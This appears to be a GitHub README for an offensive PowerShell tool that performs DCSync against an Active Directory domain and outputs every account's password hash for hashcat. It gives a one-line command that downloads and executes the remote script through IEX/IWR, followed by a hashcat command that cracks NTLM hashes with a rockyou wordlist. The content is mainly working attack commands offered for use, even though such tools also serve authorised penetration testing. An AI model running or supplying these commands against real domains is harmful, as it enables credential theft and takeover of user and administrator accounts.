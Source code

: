 # DCSync-To-hashcat
Performs DCSync, extracts all hashes in a hashcat friendly format

Execute from GitHub:

```
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/The-Viper-One/DCSync-To-Hashcat/main/DCSync-To-Hashcat.ps1)
```

![image](https://user-images.githubusercontent.com/68926315/222810926-7b0c6bfd-e93b-42bc-95c4-877bb6b31a81.png)

# hashcat

The results can be copied over to file and run againt Hashcat
```
hashcat -a 0 -m 1000 hashes.txt Wordlists/rockyou2021.txt
```
